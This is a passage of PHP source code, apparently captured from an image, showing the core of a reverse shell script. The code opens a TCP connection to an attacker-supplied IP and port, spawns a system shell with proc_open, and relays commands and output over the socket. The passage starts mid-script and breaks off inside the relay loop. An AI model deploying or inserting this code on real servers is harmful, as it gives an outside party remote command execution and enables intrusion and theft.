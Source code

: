 ```php
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

```